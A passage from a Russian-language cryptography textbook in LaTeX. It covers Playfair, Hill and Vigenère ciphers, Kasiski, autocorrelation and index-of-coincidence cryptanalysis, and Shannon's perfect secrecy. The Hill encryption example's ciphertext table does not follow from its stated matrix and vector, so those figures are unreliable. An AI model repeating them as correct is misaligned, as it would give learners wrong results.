    \item Если буквы пары лежат в одном столбце, то каждая буква заменяется соседней буквой снизу. Например, пара \texttt{lo} заменяется парой \texttt{rv}. Если одна из этих букв крайняя нижняя, то её <<нижним соседом>> считается крайняя верхняя буква в этом столбце таблицы. Например, пара \texttt{kx} заменяется буквами \texttt{sy}.
    \item Если буквы в паре одинаковые, то между ними вставляется определённая буква, называемая <<буквой-пустышкой>>. После этого разбиение на пары производится заново.
\end{itemize}

\example
Используем шифр Плейфера\index{шифр!Плейфера} и зашифруем сообщение "\texttt{Wheatstone was the inventor}". Исходное сообщение, разбитое на биграммы, показано в первой строке таблицы. Результат шифрования, также разбитый на биграммы, приведён во второй строке.
\begin{center} \begin{tabular}{|*{12}c|}
    \hline
    wh & ea & ts & to & ne & wa & st & he & in & ve & nt & or \\
    \hline
    aq & ph & nt & nq & un & ab & tn & kg & eu & gu & on & vg \\
    \hline
\end{tabular} \end{center}
\exampleend

Шифр Плейфера\index{шифр!Плейфера} не является криптографически стойким. Несложно найти ключ, если известны пара открытого текста и соответствующего ему шифртекста. Если известен только шифртекст, криптоаналитик может проанализировать соответствие между частотой появления биграмм в шифртексте и известной частотой появления биграмм в языке, на котором написано сообщение. Такой частотный анализ помогает дешифрованию.


\section{Полиграммный шифр замены Хилла}\index{шифр!Хилла|(}
\selectlanguage{russian}

Если при шифровании преобразуются более двух букв открытого текста, то шифр называется \emph{полиграммным}\index{шифр!полиграммный}. Первый полиграммный шифр предложил Лестер Хилл в 1929 году (\langen{Lester Sanders Hill}, \cite{Hill:1929, Hill:1931}). Это был первый шифр, который позволял оперировать более чем тремя символами за один такт.

В шифре Хилла текст предварительно преобразуют в цифровую форму и разбивают на последовательности (блоки) по $n$ последовательных цифр. Такие последовательности называются \emph{$n$-граммами}. Выбирают обратимую по модулю $m$  $(n \times n)$-матрицу $\mathbf{A} = (a_{ij})$, где $m$~--- число букв в алфавите. Выбирают случайный $n$-вектор $\mathbf{f} = (f_1, \dots, f_n)$. После чего $n$-грамма открытого текста $\mathbf{x} = (x_1, x_2, \dots, x_n)$ заменяется $n$-граммой шифрованного текста $\mathbf{y} = (y_1, y_2, \dots, y_n)$ по формуле:
    \[ \mathbf{y} = \mathbf{x} \mathbf{A} + \mathbf{f} \mod m. \]
Расшифрование проводится по правилу
    \[ \mathbf{x} = (\mathbf{y} - \mathbf{f}) \mathbf{A}^{-1} \mod m. \]

\example
Приведём пример шифрования с помощью шифра Хилла. Преобразуем английский алфавит в числовую форму (m = 26) следующим образом:
\[ \text{a} \rightarrow 0, ~ \text{b} \rightarrow 1, ~ \text{c} \rightarrow 2, ~ \dots, ~ \text{z} \rightarrow 25. \]
%\[ \begin{array}{cccccccccccccc}
%    a & b & c & d & e & f & g & h & i & j &  k &  l &  m &  n \\
%    0 & 1 & 2 & 3 & 4 & 5 & 6 & 7 & 8 & 9 & 10 & 11 & 12 & 13
%\end{array} \]
%\[ \begin{array}{cccccccccccc}
%     o &  p &  q &  r &  s &  t &  u &  v &  w &  x &  y &  z  \\
%    14 & 15 & 16 & 17 & 18 & 19 & 20 & 21 & 22 & 23 & 24 & 25
%\end{array} \]

Выберем для примера $n = 2$. Запишем фразу <<Wheatstone was the inventor>> из предыдущего примера (первая строка таблицы). Каждой букве поставим в соответствие её номер в алфавите (вторая строка):
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|*{12}c|}
    \hline
    w,h & e,a & t,s & t,o & n,e & w,a & s,t & h,e & i,n & v,e & n,t & o,r \\
    \hline
    22,7 & 4,0 & 19,18 & 19,14 & 13,4 & 22,0 & 18,19 & 7,4 & 8,13 & 21,4 & 13,19 & 14,17 \\
    \hline
\end{tabular} } \end{center}

Выберем матрицу шифрования $A$ в виде
\[
    \mathbf{A} = \left( \begin{array}{cc}
        5 & 8 \\
        3 & 5 \\
    \end{array} \right).
\]

Эта матрица обратима по $\mod 26$, так как её определитель равен $1$ и взаимно прост с числом букв английского алфавита $m=26$. Обратная матрица равна
\[
    \mathbf{A}^{-1} = \left( \begin{array}{cc}
        5  & 18 \\
        23 & 5
    \end{array} \right) \mod 26.
\]

Выберем вектор $\mathbf{f} = (4, 2)$. Первая числовая пара открытого текста $\mathbf{x} = (\text{w}, \text{h}) = (22, 7)$ зашифрована в виде
\[
    \mathbf{y} = \mathbf{x} \mathbf{A} + \mathbf{f} =
        (22, 7)
        \left( \begin{array}{cc}
            5 & 8 \\
            3 & 5
        \end{array} \right) +
        (4, 2) = (14, 3) \mod 26
\]
или в буквенном виде $(\text{o}, \text{d})$.

Повторяя вычисления для всех пар, получим полный шифрованный текст в числовом виде (третья строка) или в буквенном виде (четвёртая строка):
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|*{12}c|}
    \hline
    w,h & e,a & t,s & t,o & n,e & w,a & s,t & h,e & i,n & v,e & n,t & o,r \\
    22,7 & 4,0 & 19,18 & 19,14 & 13,4 & 22,0 & 18,19 & 7,4 & 8,13 & 21,4 & 13,19 & 14,17 \\
    \hline
    14,3 & 24,22 & 9,21 & 3,9 & 23,1 & 10,8 & 12,19 & 19,23 & 18,3 & 11,15 & 13,20 & 2,19 \\
    o,d & y,w & j,v & d,j & x,b & k,i & m,t & t,x & s,d & l,p & n,u & c,t \\
    \hline
\end{tabular} } \end{center}
\exampleend

Криптосистема Хилла уязвима к частотному криптоанализу\index{криптоанализ!частотный}, который основан на вычислении частот последовательностей символов. Рассмотрим пример <<взлома>> простого варианта криптосистемы Хилла.

\example В английском языке $m = 26$,
    \[ a \rightarrow 0, ~ b \rightarrow 1, ~ \dots, ~ z \rightarrow 25. \]
При шифровании использована криптосистема Хилла с матрицей второго порядка c нулевым вектором $\mathbf{f}$. Наиболее часто встречающиеся в шифротексте биграммы -- RH и NI, в то время как в исходном языке -- TH и HE (артикль THE). Найдём матрицу секретного ключа, составив уравнения
\[
    \begin{array}{l}
        R = 17 = -9 \mod 26, ~~ H = 7 \mod 26, ~~ N = 13 \mod 26, \\
        I = 8 \mod 26, ~~ T = 19 = -7 \mod 26, ~~ E=4 \mod 26; \\
    \end{array}
\] \[
    \left( \begin{array}{cc}
        \text{R} & \text{H} \\
        \text{N} & \text{I}
    \end{array} \right) =
    \left( \begin{array}{cc}
        \text{T} & \text{H} \\
        \text{H} & \text{E}
    \end{array} \right) \cdot
    \left( \begin{array}{cc}
        k_{1,1} & k_{1,2} \\
        k_{2,1} & k_{2,2}
    \end{array} \right) \mod 26;
\] \[
    \left( \begin{array}{cc}
        -9 & 7 \\
        13 & 8
    \end{array} \right) =
    \left( \begin{array}{cc}
        -7 & 7 \\
        7 & 4
    \end{array} \right) \cdot
    \left( \begin{array}{cc}
        k_{1,1} & k_{1,2} \\
        k_{2,1} & k_{2,2}
    \end{array} \right) \mod 26.
\]

Стоит обратить внимание на то, что числа 4, 8, 13 не имеют обратных по модулю 26.

\[
    D = \det \left( \begin{array}{cc} -7 & 7 \\ 7 & 4 \end{array} \right) = -7 \cdot 4 - 7 \cdot 7 = 1 \mod 26.
\] \[
    \left( \begin{array}{cc} -7 & 7 \\ 7 & 4 \end{array} \right)^{-1} =
    D^{-1} \left( \begin{array}{cc} 4 & -7 \\ -7 & -7 \end{array} \right) =
    \left( \begin{array}{cc} 4 & -7 \\ -7 & -7 \end{array} \right) \mod 26.
\] \[
    \left( \begin{array}{cc} k_{1,1} & k_{1,2} \\ k_{2,1} & k_{2,2} \end{array} \right) =
    \left( \begin{array}{cc} 4 & -7 \\ -7 & -7 \end{array} \right) \cdot
    \left( \begin{array}{cc} -9 & 7 \\ 13 & 8 \end{array} \right) =
\] \[
    = \left( \begin{array}{cc} 3 & -2 \\ -2 & -1 \end{array} \right) \mod 26.
\]
Найденный секретный ключ
\[
    \left( \begin{array}{cc} \text{D} & \text{Y} \\ \text{Y} & \text{Z} \end{array} \right).
\]
\exampleend

\index{шифр!Хилла|)}


% \subsection{Омофонные замены}
%
% Омофонными заменами называют криптопримитивы, в основе которых лежит замена групп символов открытого текста $M$ на группу символов $C$ с использованием ключа $K$. Такой метод шифрования вносит неоднозначность между $M$ и $C$, это позволяет защититься от методов частотного криптоанализа.
%  \subsection{шифрокоды}
%  Шифрокоды -- это класс шифров сочетающих в себе свойства кодов и помехозащищённости со свойствами шифра и обеспечения конфиденциальности.

\section{Шифр гаммирования Виженера}
\selectlanguage{russian}

Шифр, который известен под именем Виженера, впервые описал Джованни Баттиста Беллазо (\langit{Giovanni Battista Bellaso}) в своей книге \foreignlanguage{italian}{``La cifra del Sig. Giovan Battista Belaso''}.

Рассмотрим один из вариантов этого шифра. В самом простом случае квадратом \textbf{Виженера} называется таблица из циклически сдвинутых копий латинского алфавита, в котором буквы J и V исключены. Первая строка и первый столбец~-- буквы латинского алфавита в их обычном порядке, кроме буквы W, которая стоит последней. В строках таблицы порядок букв сохраняется, за исключением циклических переносов. Представим эту таблицу.

\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|c|*{24}c|}
    \hline
    $\quad \downarrow ~ \rightarrow$ & \textbf{A} & \textbf{B} & \textbf{C} & \textbf{D} & \textbf{E} & \textbf{F} & \textbf{G} & \textbf{H} & \textbf{I} & \textbf{K} & \textbf{L} & \textbf{M} & \textbf{N} & \textbf{O} & \textbf{P} & \textbf{Q} & \textbf{R} & \textbf{S} & \textbf{T} & \textbf{U} & \textbf{X} & \textbf{Y} & \textbf{Z} & \textbf{W} \\
    \hline
    \textbf{A} & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W \\
    \textbf{B} & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A \\
    \textbf{C} & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B \\
    \textbf{D} & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C \\
    \textbf{E} & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D \\
    \textbf{F} & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E \\
    \textbf{G} & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F \\
    \textbf{H} & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G \\
    \textbf{I} & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H \\
    \textbf{K} & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I \\
    \textbf{L} & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K \\
    \textbf{M} & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L \\
    \textbf{N} & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M \\
    \textbf{O} & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N \\
    \textbf{P} & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O \\
    \textbf{Q} & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P \\
    \textbf{R} & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q \\
    \textbf{S} & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R \\
    \textbf{T} & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S \\
    \textbf{U} & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T \\
    \textbf{X} & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U \\
    \textbf{Y} & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X \\
    \textbf{Z} & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y \\
    \textbf{W} & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z \\
    \hline
\end{tabular} } \end{center}

Здесь первый столбец используется для ключевой последовательности, а первая строка~-- для открытого текста. Общая схема шифрования такова: выбирается некоторая ключевая последовательность, которая периодически повторяется в виде длинной строки. Под ней соответственно каждой букве записываются буквы открытого текста в виде второй строки. Буква ключевой последовательности указывает строку в квадрате Виженера, буква открытого текста указывает столбец в квадрате. Соответствующая буква, стоящая в квадрате на пересечении строки и столбца, заменяет букву открытого текста в шифртексте. Приведём примеры.

\example
Ключевая последовательность состоит из периодически повторяющегося ключевого слова, известного обеим сторонам. Пусть ключевая последовательность состоит из периодически повторяющегося слова THIS, а открытый текст~-- слова COMMUNICATIONSYSTEMS (см. таблицу). Пробелы между словами опущены.
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|l|*{20}c|}
    \hline
    Ключ            & T & H & I & S & T & H & I & S & T & H & I & S & T & H & I & S & T & H & I & S \\
    Открытый текст  & C & O & M & M & U & N & I & C & A & T & I & O & N & S & Y & S & T & E & M & S \\
    Шифртекст      & X & X & U & E & O & U & R & U & T & B & R & G & G & A & F & L & N & M & U & L \\
    \hline
\end{tabular} } \end{center}
Результат шифрования приведён в третьей строке: на пересечении строки $T$ и столбца $C$ стоит буква $X$, на пересечении строки $H$ и столбца $O$ стоит буква $X$, на пересечении строки $I$ и столбца $M$ стоит буква $U$ и~т.\,д.
\exampleend

Виженер считал возможным в качестве ключевой последовательности использовать открытый текст с добавлением начальной буквы, известной легальным пользователям. Этот вариант используется во втором примере.

\example
Ключевая последовательность образуется с помощью открытого текста. Стороны договариваются о первой букве ключа, а следующие буквы состоят из открытого текста. Пусть в качестве первой буквы выбрана буква $T$. Тогда для предыдущего примера таблица шифрования имеет вид:
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|l|*{20}c|}
    \hline
    Ключ            & T & C & O & M & M & U & N & I & C & A & T & I & O & N & S & Y & S & T & E & M \\
    Открытый текст  & C & O & M & M & U & N & I & C & A & T & I & O & N & S & Y & S & T & E & M & S \\
    Шифртекст      & X & Q & A & Z & G & H & X & L & C & T & C & Y & B & F & P & P & M & Z & Q & E \\
    \hline
\end{tabular} } \end{center}
\exampleend

\example 
Пусть ключевая последовательность образуется с помощью шифртекста. Стороны договариваются о первой букве ключа. В отличие от предыдущего случая, следующая буква ключа~-- это результат шифрования первой буквы текста и~т.\,д. Пусть в качестве первой буквы выбрана буква $T$. Тогда приведённая в предыдущем примере таблица шифрования примет такой вид:
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|l|*{20}c|}
    \hline
    Ключ            & T & X & K & X & H & C & P & Z & A & A & T & C & Q & D & X & S & L & E & I & U \\
    Открытый текст  & C & O & M & M & U & N & I & C & A & T & I & O & N & S & Y & S & T & E & M & S \\
    Шифртекст      & X & K & X & H & C & P & Z & A & A & T & C & Q & D & X & S & L & E & I & U & N \\
    \hline
\end{tabular} } \end{center}
\exampleend


\section[Криптоанализ полиалфавитных шифров]{Криптоанализ полиалфавитных \protect\\ шифров}
\selectlanguage{russian}

При дешифровании полиалфавитных шифров криптоаналитику необходимо сначала определить период, для предполагаемого периода преобразовать шифрограмму в матрицу, затем использовать для каждого столбца матрицы методы криптоанализа моноалфавитных шифров. В случае неудачи необходимо изменить предполагаемый период.

Известно несколько методов криптоанализа для нахождения периода. Из них наиболее популярными являются метод Касиски, автокорреляционный метод и метод индекса совпадений.


\subsection{Метод Касиски}

Метод Касиски (\langde{Friedrich Wilhelm Kasiski}, 1805--1881, \cite{Kasiski:1863}) состоит в том, что в шифротексте находят одинаковые сегменты длиной не менее трёх символов и вычисляют расстояние между начальными символами последовательных сегментов. Далее находят наибольший общий делитель этих расстояний. Считается, что предполагаемый период $n$ является кратным этому значению. Обычно нахождение периода осуществляется в несколько этапов.

После того как выбирается наиболее правдоподобное значение периода, криптоаналитик переходит к дешифрованию. Приведём пример использования метода Касиски.

\example
Пусть шифруется следующий текст без учёта знаков препинания и различия строчных и прописных букв. Пробелы оставлены в тексте для удобства чтения, хотя при шифровании пробелы были опущены.

\begin{quote}
    \noindent \texttt{Игры различаются по содержанию характерным особенностям а также по тому какое место они занимают в жизни детей их воспитании и обучении. Каждый отдельный вид игры имеет многочисленные варианты Дети очень изобретательны Они усложняют и упрощают известные игры придумывают новые правила и детали Например сюжетно ролевые игры создаются самими детьми но при некотором руководстве воспитателя Их основой является самодеятельность Такие игры иногда называют творческими сюжетно ролевыми играми Разновидностью сюжетно ролевой игры являются строительные игры и игры драматизации В практике воспитания нашли свое место и игры с правилами которые создаются для детей взрослыми К ним относятся дидактические подвижные и игры забавы В основе их лежит четко определенное программное содержание дидактические задачи и целенаправленное обучение Для хорошо организованной жизни детей в детском саду необходимо разнообразие игр так как только при этих условиях будет обеспечена детям возможность интересной и содержательной деятельности Многообразие типов видов форм игр неизбежно как неизбежно многообразие жизни которую они отражают как неизбежно многообразие несмотря на внешнюю схожесть игр одного типа модели}
\end{quote}

Для шифрования выберем период $n=4$ и следующие 4 моноалфавитных шифра замены:

\begin{center} \begin{tabular}{|lcl|}
    \hline
    абвгдежзийклмнопрстуфхцчшщъыьэюя & -- & алфавит \\
    йклмнопрстуфхцчшщъыьэюяабвгдежзи & -- & 1-й шифр \\
    гаэъчфсолиевяьщцурнкздбюышхтпмйж & -- & 2-й шифр \\
    бфзънаужщмятешлюсдчкэргцйьпвхиыо & -- & 3-й шифр \\
    пъерыжсьзтэиуюйфякхалцбмчвншгощд & -- & 4-й шифр \\
    \hline
\end{tabular} \end{center}

Тогда шифрованный текст примет следующий вид (в шифротексте пробелов нет, они вставлены для удобства чтения):

\begin{quote}
\noindent \texttt{съсш щгжисюбщыро фч рлыоуупцлы цйубэыфсюдя лкчааюцщдхия б хйеуж шщ чйхк япуща уорчй чьщьйьщуййч еплжюсчахоищцлщдфснбюсл щ йккцжцлщ эйсншт щчыовхюди ззн лъяд лежон еючълмсртжцьвж лгсзйьчш нфчз чюаюе лжйкуахйнаиеьв йцл ккфщуюийч з ьцсйвгых созжъншшо лъяд цсзнкешлгых цщзшо цспллтп с чахйвщ юйцсзхфс кзсахцщ сйффзшо лъяд рльнгыхъж дпхлез нфчгхл шй шущ юоелхчулу щкяйлщнкыэа ечрюзыгчжфж щц чршйлщм длвожыро кйялыожчжфпшйънх хйещж съсш сьлрнг шпртзпзн чечуцжъещус рысоншй щщтжлтез съспхл спрьлесчшйънхщ ъйужыьл ячваечи щрщт оефжыхъж дхщщщховхюдф щрщт щ змув ыщгепылжпялщ е шубэыляж лщдфснбюсж шпбвщ клща уорчй с лъяд р юяйэщийящ эчнлядф дйрчбщыро ыфжнжыфмерулкфтез у ьщу чншйъжчки чщыйечзафдэсф юйнэщсцта з съсш ргфплт з йъьлео лр иосщх афчэч щюяочаиоьшйо цсймубухьлжъщнжщсбюсфнзнгяхсюакула ьйчбмс лгжффшпшубеффшючф лъьюаюсф нии длячыл йщъбюсолейьшйт сщьцл нжыфм е нфчкуще кйчк юощфцччщуч убьцщлъщгжзо лъя ыгя эйе чйфпяй шущоылр аъвлесжр ъьчах чаакшфцжцг нжыже ечоейпьлкып щюыфсжъьлтс рлыоуупыфтгцщм ыожчжфпшйънщуцщъйчаспрла хсцле ллнйл злях лъя цфщькфуюч ебэ цфщькфуючяшймщлъщгжзо сщьцл яйыщсазщшз чнсппгых угяюолжъосшй хьлрчщфяйощжцфдучнсд цгзюоышщзррйпфдхе лъя ччшймщ чзшг ейнфтз}
\end{quote}

Теперь проведём криптоанализ, используя метод Касиски. Предварительно подсчитаем число появлений каждой буквы в шифротексте. Эти данные приведём в таблице, где $i$ в первой строке означает букву алфавита, а $f_{i}$ во второй строке -- это число появлений этой буквы в шифротексте. Всего в нашем шифротексте имеется $L=1036$ букв.

\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|}
    \hline
    $i$     & А & Б & В & Г & Д & Е & Ж & З & И & Й & К & Л & М & Н & О & П \\
    $f_{i}$ & 26 & 15 & 11 & 21 & 20 & 36 & 42 & 31 & 13 & 56 & 23 & 70 & 10 & 33 & 36 & 25 \\
    \hline
\end{tabular} } \end{center}

\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|}
    \hline
    $i$     & Р & С & Т & У & Ф & Х & Ц & Ч & Ш & Щ & Ъ & Ы & Ь & Э & Ю & Я \\
    $f_{i}$ & 28 & 54 & 15 & 36 & 45 & 32 & 31 & 57 & 35 & 72 & 32 & 35 & 27 & 11 & 30 & 28 \\
    \hline
\end{tabular} } \end{center}

В рассматриваемом примере проведённый анализ показал следующее.
\begin{itemize}
    \item Сегмент СЪС встречается в позициях $1, 373, 417, 613$. Соответствующие расстояния равны
        \[ \begin{array}{l}
            373 - 1 = 372 = 4 \cdot 3 \cdot 31, \\
            417 - 373= 44 = 4 \cdot 11, \\
            613 - 417 = 196 = 4 \cdot 49. \\
        \end{array} \]
        Наибольший общий делитель равен $4$. Делаем вывод, что период кратен $4$.
    \item Сегмент ЩГЖ встречается в позициях $5, 781, 941$. Соответствующие расстояния равны
        \[ \begin{array}{l}
            781 - 5 = 776 = 8 \cdot 97, \\
            941 - 781 = 160 = 32 \cdot 5. \\
        \end{array} \]
        Делаем вывод, что период кратен $8$, что не противоречит выводу для предыдущих сегментов (кратность $4$).
    \item Сегмент ЫРО встречается в позициях $13, 349, 557$. Соответствующие расстояния равны
        \[ \begin{array}{l}
            349 - 13 = 336 = 16 \cdot 3 \cdot 7, \\
            557 - 349 = 208 = 16 \cdot 13. \\
        \end{array} \]
        Делаем вывод, что период кратен 4.
\end{itemize}

Предположение о том, что период $n=4$, оказалось правильным.
\exampleend


\subsection{Автокорреляционный метод}

Автокорреляционный метод состоит в том, что исходный шифротекст $C_{1},C_{2}, \ldots, C_{L}$ выписывается в строку, а под ней выписываются строки, полученные сдвигом вправо на $t =1, 2, 3, \ldots$ позиций. Для каждого $t$ подсчитывается число $n_{t}$ индексов $i \in \left[ {1,L - t} \right]$ таких, что $C_i  = C_{i + t}$.

Вычисляются автокорреляционные коэффициенты:
    \[ \gamma_t  = \frac{n_t}{L - t}. \]
Для сдвигов $t$, кратных периоду, коэффициенты должны быть заметно больше, чем для $t$, не кратных периоду.

\example
Для рассматриваемой криптограммы выделим те значения $t$, для которых $\gamma _t~>~0,05.$ Получим ряд чисел:

\begin{quote}
    \noindent \texttt{4, 12, 16, 24, 28, 32, 36, 40, 44, 48, 52, 56, 64, 68, 72, 76, 80, 84, 88, 92, 96, 104, 108, 112, 116, 124, 128, 132, 140, 148, 152, 156, 160, 164, 168, 172, 176, 180, 184, 188, 192, 196, 200, 204, 208, 216, 220, 224, 228, 252, 256, 260, 264, 268, 272, 276, 280, 284, 288, 292, 296, 300, 304, 308, 312, 316, 320, 324, 328, 344, 348, 356, 364, 368, 372, 376, 380, 384, 388, 396, 400, 404, 408, 412, 420, 424, 432, 436, 440, 448, 452, 456, 460, 462, 468, 472, 476, 480, 484, 496, 500, 508, 512, 516.}
\end{quote}

Все эти числа, кроме 462, делятся на 4. Выбираем значение $n=4$, которое верно и совпадает со значением, полученным по методу Касиски.
\exampleend


\subsection{Метод индекса совпадений}

Метод индекса совпадений был описан Фридманом в 1922 году (\langen{William Frederick Friedman}, 1891--1969, \cite{Friedman:1922}). При применении метода индекса совпадений подсчитывают число появлений букв в случайной последовательности
    \[ \mathbf{X} = (X_1 ,X_2 , \ldots , X_L ) \]
и вычисляют вероятность того, что два случайных элемента этой последовательности совпадают. Эта величина называется \textbf{индексом совпадений} и обозначается $I_{c}(\mathbf{x}),$ где
    \[ I_{c} (\mathbf{x}) = \frac{{\sum\limits_{i = 1}^A {f_i (f_i  - 1)} }} {{L(L - 1)}}, \]
$f_{i}$ -- число появлений буквы $i$ в последовательности $\mathbf{x}$, $A$ -- число букв в алфавите.

Значение этого индекса используется в криптоанализе полиалфавитных шифров для приближённого определения периода по формуле
    \[ m \approx \frac{{k_p  - k_r }} {{I_{c} (\mathbf{x}) - k_r  + \frac{{k_p  - I_{c} (\mathbf{x})}} {L}}}, \]
где
    \[ k_r  = \frac{1}{A}, ~~ k_p  = \sum\limits_{i=1}^A p_i^2, \]
$p_i $ -- частота появления буквы $i$ в естественном языке.
Теоретическое обоснование метода индекса совпадений не является простым. Оно приведено в Приложении~\ref{chap:coincide-index} к данному пособию.

\example
В рассматриваемом выше примере приведены значения $f_{i}$. Для русского языка
    \[ A=32, ~ k_{r} = \frac{1}{32} \approx 0.03125, ~ k_{p} \approx 0.0529. \]
Проведя вычисления, получаем $m \approx 3.376$. Полученное по формуле приближённое значение m достаточно близкое к значению периода $n=4$.
\exampleend

С развитием ЭВМ многие классические полиалфавитные шифры перестали быть устойчивыми к криптоатакам.


\chapter{Совершенная криптостойкость}\index{криптостойкость!совершенная|(}
\selectlanguage{russian}

Рассмотрим модель криптосистемы, в которой Алиса выступает источником сообщений $m \in \group{M}$. Алиса использует некоторую функцию шифрования, результатом вычисления которой является шифротекст $c \in \group{C}$:

	\[c = E_{K_1}\left(m\right).\]

Шифротекст $c$ передаётся по открытому каналу легальному пользователю Бобу, причём по пути он может быть перехвачен нелегальным пользователем (криптоаналитиком) Евой.

Боб, обладая ключом расшифрования $K_2$, расшифровывает сообщение с использованием функции расшифрования:
	\[m' = D_{K_2}\left(c \right).\]

Рассмотрим теперь исходное сообщение, передаваемый шифротекст и ключи шифрования (и расшифрования, если они отличаются) в качестве случайных величин, описывая их свойства с точки зрения теории информации. Далее полагаем, что в криптосистеме ключи шифрования и расшифрования совпадают.

Будем называть криптосистему \emph{корректной}, если она обладает следующими свойствами.
\begin{itemize}
	\item Легальный пользователь имеет возможность однозначно восстановить исходное сообщение, то есть
					\[H \left( M | C, K \right) = 0, \]
					\[m' = m.\]
	\item Выбор ключа шифрования не зависит от исходного сообщения
					\[ I \left( K ; M \right) = 0, \]
					\[ H \left( K | M \right) = H \left( K \right). \]
\end{itemize}

Второе свойство является в некотором виде условием на возможность отделить ключ шифрования от данных и алгоритма шифрования.

\section[Определения]{Определения совершенной криптостойкости}

Понятие совершенной секретности (или стойкости) введено американским учёным Клодом Шенноном. В конце Второй мировой войны он закончил работу, посвящённую теории связи в секретных системах\cite{Shannon:1949:CTS}. Эта работа вошла составной частью в собрание его трудов, вышедшее в русском переводе в 1963 году.~\cite{Shannon:1963} Понятие о стойкости шифров по Шеннону связано с решением задачи криптоанализа по одной криптограмме.

Криптосистемы совершенной стойкости могут применяться как в современных вычислительных сетях, так и для шифрования любой бумажной корреспонденции. Основной проблемой применения данных шифров для шифрования больших объёмов информации является необходимость распространения ключей объёмом не меньшим, чем передаваемые сообщения.

\begin{definition}\label{perfect_by_probabilities}
Будем называть криптосистему \emph{совершенно криптостойкой}, если апостериорное распределение вероятностей исходного случайного сообщения $m_i \in \group{M}$ при регистрации случайного шифротекста $c_k \in \group{C}$ совпадает с априорным распределением~\cite{Gultyaeva:2010}:

	\[\forall m_j \in \group{M}, c_k \in \group{C}: P \left( m = m_j | c = c_k \right) = P \left( m = m_j \right).\]
\end{definition}

Данное условие можно переформулировать в терминах статистических свойств сообщения, ключа и шифротекста как случайных величин.

\begin{definition}\label{perfect_by_enthropy}
Будем называть криптосистему \emph{совершенно криптостойкой}, если условная энтропия сообщения\index{энтропия!условная}\index{энтропия!открытого текста} при известном шифротексте равна безусловной:
	\[H \left( M | C \right) = H \left( M \right),\]
	\[I \left( M; C \right) = 0.\]
\end{definition}

Можно показать, что определения~\ref{perfect_by_probabilities} и~\ref{perfect_by_enthropy} тождественны.

\section[Условие]{Условие совершенной криптостойкости}

Найдём оценку количества информации, которое содержит шифротекст $C$ относительно сообщения $M$:
\[ I(M; C) = H(M) - H(M | C). \]
Очевидны следующие соотношения условных и безусловных энтропий~\cite{GabPil:2007}:
\[H(K|C)=H(K|C)+H(M|KC)=H(MK|C),\]
\[H(M,K|C)=H(M|C)+H(K|M,C)\geq H(M|C),\]
\[H(K)\geq H(K|C)\geq H(M|C).\]
Отсюда получаем:
 \[ I(M; C) = H(M) - H(M | C)\geq H(M)-H(K). \]
Из последнего неравенства следует, что взаимная информация между сообщением и шифротекстом равна нулю, если энтропия ключа не меньше энтропии сообщений. С другой стороны, взаимная информация между сообщением и шифротекстом равна нулю, если они статистически независимы. Таким образом, условием совершенной криптостойкости является неравенство:
\[ H(M) \leq H(K).\]
%Если утверждение верно, то количество информации в шифротексте относительно открытого текста $I(M; C)$ равно нулю:
%  \[ I(M; C) = H(M) - H(M | C) = 0, \]
%так как для статистически независимых величин условная энтропия равна безусловной энтропии, то есть $H(M) = H(M | C)$.

%Функцию шифрования обозначим $E: \{ M, K \} \rightarrow C$. Процедура шифрования состоит из следующих шагов.
%\begin{itemize}
%    \item Легальный пользователь $A$ выбирает ключ $k \in K$ и секретно сообщает его легальному пользователю $B$ (дополнительная задача -- распределение ключей).
%    \item По открытому сообщению $m \in M$ и выбранному ключу $k$ вычисляют шифрованное сообщение $c = E_k(m) \in C$.
%\end{itemize}

%Основное требование при шифровании состоит в том, чтобы при выбранном ключе $k$ вычисление $c$ было лёгкой задачей для любого сообщения $m$.

%Функцию расшифрования обозначим $D: \{ C, K \} \rightarrow M$. Процедура расшифрования состоит из следующих шагов.
%\begin{itemize}
